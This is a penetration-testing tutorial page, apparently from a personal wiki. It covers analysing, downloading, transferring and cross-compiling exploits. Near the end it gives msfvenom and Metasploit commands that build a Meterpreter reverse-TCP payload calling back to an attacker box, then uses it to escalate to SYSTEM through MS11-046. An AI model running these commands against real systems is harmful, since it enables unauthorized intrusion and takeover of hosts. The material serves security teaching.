


Cyber Security
Cyber Security
Exploit¶
An exploit is a way to abuse a vulnerability. It can be code that sends data to your server, or it can be a specially crafted HTTP request, or a maliciously crafted e-Mail.
The term “exploit” generally refers to “the thing that abuses a vulnerability”.
Danger
Purposed Bug on Exploit aigainst the ‘Script Kiddies’
Small ‘bugs’ which are sometimes introduced on purpose. These deliberate ‘bugs’ are often there as a precaution against just anyone (read: ‘script kiddies’) using the exploit out of the box without knowing what they are doing and causing indiscriminate damage.
Failure to take proper precautions could open backdoors on the attack machine, wipe an entire hard drive on the target machine or even add the machine to a botnet.
The code may also have been intended only as a proof of concept (POC) for testing the existence of a vulnerability without including harmful payloads (such as a reverse shell).
Another reason to carefully examine the exploit code is that it often contains usage instructions in comment blocks, or they may be obvious from the code itself.
Most of the time the modification needed are some simple parameters like the target-parameters (IP address), the payload or the local host IP.
- Reverse shell vs Bind shell¶
There are two popular types of shells: bind and reverse.
A bind shell opens up a new service on the target machine, and requires the attacker to connect to it in order to start a session.
A reverse shell (also known as a connect-back) requires the attacker to first set up a listener to which the target machine can connect.
Targets for analyzing and modifying exploit code¶
When analyzing exploit code, we are trying to:
Verify that the exploit works exactly as advertised and thus eliminate malicious Exploit;
Get a general understanding of how the vulnerability is exploited;
See if there are any instructions from the exploit author on how to use the exploit or the parts of the code we need to modify;
Modify the code depending on our target, mainly by inserting variables such as the IP address, port, payload or other target specific details;
Downloading exploits¶
Before we can start to modify an exploit we first need to download it to the attack machine.
Transferring exploits to target hosts involves very different techniques and sometime different tools too. The easiest methods for obtaining exploits is by:
Downloading them from Exploit-db via a browser
Using a command line tool like wget
Copying the exploit code from Searchsploit
Downloading them from Exploit-db via a browser¶
On the Exploit-DB website simply press the download button to download the selected exploit to your machine.
{kind=link}
Using a command line tool like wget¶
{kind=link}
Copying the exploit code from Searchsploit¶
We can also add the -p option to show the full path of the exploit script:
searchsploit 35513 -p
{kind=link}
When using the local Searchsploit exploit files it is recommended to always save a separate copy of the exploit file to another location so that you are not modifying the original file as you may need to revert to or reuse the original file later.
Note
cp exploit to the local dir
1 cp /usr/share/exploitdb/exploits/linux/remote/35513.py ./
Transferring the exploit to the target host¶
When you have to compile an exploit on the attack box you first have to transfer the compiled exploit to the target host before you execute it. If you are lucky enough to have file transfer services or applications, such as FTP or wget, available on the compromised host, you can use these to transfer your compiled exploit. If you’re not so lucky and there are no file transfer tools installed, you have to be more creative and transfer files using Netcat, PowerShell, VBScript or Meterpreter.
The most used technic for transferring an Exploit or payload to a target is to force the download from the target it self.
Web Serveur¶
It is convenient to create a web server on the Pentest computer (kali ;p) from the same dir of the payload and the local copy of the exploit.
Note
Download tool¶
here are some tools able to download the file from this web server :
certutil.exe (Windows)
web browser (all OS)
Trough a site allowing upload or trough a previous exploitation like a SQL Injection
wget (Linux, MacOS)
PowerShell (Windows)
Compile Exploit¶
In most case, the instructions for compiling the Exploit is given on the top of the exploit.
{kind=link}
Cross compilation of a Windows Exploit on Linux¶
Since most of the computer have a Windows OS and on the other hand most of the Pentest Distrib are base on Linux, it is current for a pentester to need to compile a Windows Exploit from a Linux distribution.
- mingw-w64¶
A very popular tool to cross compile Windows exploits on Linux is called Mingw-w64 (Minimalist GNU for Windows).
Mingw-w64 is not installed by default on Kali Linux or on most other penetration testing distributions.
Note
Install mingw-w64
1 sudo apt update 2 sudo apt install mingw-w64
Compiling the exploit¶
Note
Download and compiling the exploit
1 # 1. download the Exploit 2 wget https://www.exploit-db.com/download/40564 -O 40564.c 3 4 # 2. Compiling the Exploit 5 i686-w64-mingw32-gcc [input file: source] -o [output file: .exe] -lws2_32Exemple
1 i686-w64-mingw32-gcc 40564.c -o exploit.exe -lws2_32
{kind=link}
The -l option is for naming the libraries/dlls you want to link. In this case –l references the 32-bit winsock dll (ws2_32). As mentioned earlier, many, if not most, of the exploits on Exploit-db contain comments by the developer of the exploit with exact instructions on how to compile the exploit, including the required options to use. Therefore, it is recommended to read carefully through the comment sections in the exploit code to find information on how to compile the exploit.
Exemple : Exploiting MS11-046 from a Meterpreter shell¶
we will demonstrate setting up a reverse shell using Meterpreter.
First, we generate a Windows 32-bit Meterpreter reverse TCP payload using Msfvenom.
Then we execute it on the target host and receive the reverse shell on the attack box using the multi handler module in Metasploit.
Note
Msfvenom
Be sure to replace the listening host (LHOST) IP and, if necessary, the listening port (LPORT) too.
1 msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=[IP attackbox] LPORT=4444 -e x86/shikata_ga_nai –f exe –o exploit.exeNote
:ref:`Metasploit <ref_Metasploit>`
1 msfconsole 2 use exploit/multi/handler 3 set lhost [IP attackbox] 4 set lport 4444 5 run
{kind=link}
Then download the exploit to the target host and execute (run) it. If everything was setup correctly you should receive a reverse Meterpreter shell on the msfconsole.
{kind=link}
Next type shell on the Meterpreter command line to create the reverse shell (note how a successful reverse shell changes the terminal prompt from meterpreter > to C:UserstestDesktop>). You can run the ‘whoami’ command to check the current privilege level and then run the privilege escalation exploit to escalate the shell to a system shell using exploit.exe (this is the name we gave to the exploit we compiled earlier)
{kind=link}